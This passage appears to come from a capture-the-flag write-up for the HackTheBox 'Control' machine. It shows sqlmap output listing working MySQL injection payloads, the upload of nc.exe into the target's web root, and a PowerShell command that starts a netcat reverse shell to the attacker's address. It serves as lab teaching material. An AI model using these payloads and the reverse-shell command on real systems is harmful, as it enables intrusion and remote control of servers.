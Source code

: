 The shell I want to launch makes use of [nc for Windows](https://eternallybored.org/misc/netcat/) so I uploaded the binary in the same folder as well:

```aaa
baud@kali:~/HTB/control$ sqlmap -u http://10.10.10.167/search_products.php --data='productName=name' --headers='X-Forwarded-For: 192.168.4.28' --file-write=./nc.exe --file-dest='C:\\inetpub\\wwwroot\\uploads\\nc.exe'
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.4.2#stable}
|_ -| . ["]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 23:24:01 /2020-04-06/

[23:24:01] [INFO] resuming back-end DBMS 'mysql' 
[23:24:01] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: productName (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: productName=-3076' OR 6013=6013#

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: productName=name' AND (SELECT 4131 FROM(SELECT COUNT(*),CONCAT(0x7178627071,(SELECT (ELT(4131=4131,1))),0x7176627871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- dzoa

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: productName=name';SELECT SLEEP(5)#

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: productName=name' AND (SELECT 4951 FROM (SELECT(SLEEP(5)))YygG)-- NmJz

    Type: UNION query
    Title: MySQL UNION query (NULL) - 6 columns
    Payload: productName=name' UNION ALL SELECT NULL,CONCAT(0x7178627071,0x6a49496f58625764426b464f4c6f6f4d746c4556795965514d6442736f747a527778414d726c7a64,0x7176627871),NULL,NULL,NULL,NULL#
---
[23:24:02] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[23:24:02] [INFO] fingerprinting the back-end DBMS operating system
[23:24:02] [INFO] the back-end DBMS operating system is Windows
[23:24:02] [WARNING] potential permission problems detected ('Access denied')
[23:24:15] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)              
do you want confirmation that the local file 'nc.exe' has been successfully written on the back-end DBMS file system ('C:/inetpub/wwwroot/uploads/nc.exe')? [Y/n] y
[23:24:19] [INFO] the local file 'nc.exe' and the remote file 'C:/inetpub/wwwroot/uploads/nc.exe' have the same size (28160 B)
[23:24:19] [INFO] fetched data logged to text files under '/home/baud/.sqlmap/output/10.10.10.167'
[23:24:19] [WARNING] you haven't updated sqlmap for more than 65 days!!!

[*] ending @ 23:24:19 /2020-04-06/
```


[localhost]: PS C:\Users\Hector\Documents> whoami
[localhost]: PS C:\Users\Hector\Documents>
[localhost]: PS C:\Users\Hector\Documents> Invoke-Command -ScriptBlock { C:\inetpub\wwwroot\uploads\nc.exe -e cmd.exe 10.10.15.203 9898 }